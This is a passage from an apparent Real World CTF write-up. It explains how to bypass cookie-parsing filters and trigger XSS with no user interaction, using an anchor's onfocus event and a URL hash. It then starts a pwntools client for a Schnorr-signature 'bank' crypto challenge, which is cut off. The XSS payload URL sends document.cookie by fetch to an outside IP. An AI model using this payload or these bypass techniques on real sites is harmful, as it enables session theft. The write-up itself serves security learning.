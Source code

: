1. Bypass getCookie("attr"): `url?tag=attrs=3`
2. Bypass `;` and `&`: When `getCookie`, it will unescape special characters. We can use percent-encoding `%26` to bypass
3. Using `<a>` to XSS without user interaction: The remote headless chrome bot will not interact with the page, so we have to come out a approach to trigger the XSS without user interaction.
4. Trigger `onfocus` event: We can use hash `url#foo` to trigger the `onfocus` event of an anchor`<a>` element with id `foo`. [Reference](https://blogs.msmvps.com/alunj/2013/04/19/using-url-anchors-to-enliven-xss-exploits/) and [StackOverflow](https://security.stackexchange.com/questions/168909/xss-inside-anchor-tag-a-without-user-interaction).

The key point is the `onfocus` event. It does not come out into my mind magically. First, I list all the attribute of `<a>` to see which events is useful. After that I search for some random keyword of those event with `anchor XSS`. Then ..... bingo.

Payload:


```
http://52.52.236.217:16401/?tag=attrs=id%3Dfoo%2526onfocus%3Djavascript%3Afetch%28%27%2F%2F240.240.240.240%3A1234%3F%27%2Bdocument.cookie%29%2526href%3D%23foo#foo

# rwctf{fR0m1olotH!n9}

```

#### Failed Attempts

- Using CSS to triger javascript: We can inject `style` attribute thus we can perform CSS injection. Unfortunately in modern browsers, they do not support execute javascript in CSS.
- `onmouseevent` + very large canvas: Once the user/bot's mouse moves into the page, it will trigger the event if we set a very large width and height in CSS. However this doesn't work because the remote bot will not interact with the page. There is no mouse event triggered.

## Crypto
### bank


```python=
from pwn import *
from PoW import do_pow
from base64 import b64encode

from schnorr import *

host, port = 'tcp.realworldctf.com', 20014

def login(r, point):
    msg = b64encode('{},{}'.format(*point))
    r.sendlineafter('Please tell us your public key:', msg)

def deposit(r, sig):
    msg = b64encode('1')
    r.sendlineafter('our first priority!', msg)
    msg = b64encode(sig)
    r.sendlineafter('Please send us your signature', msg)

def withdraw(r, sig):
    msg = b64encode('2')
    r.sendlineafter('our first priority!', msg)
    msg = b64encode(sig)
    r.sendlineafter('Please send us your signature', msg)

def get_pubkey(r):
    msg = b64encode('3')
    r.sendlineafter('our first priority!', msg)
    r.recvuntil('one of us: ')
```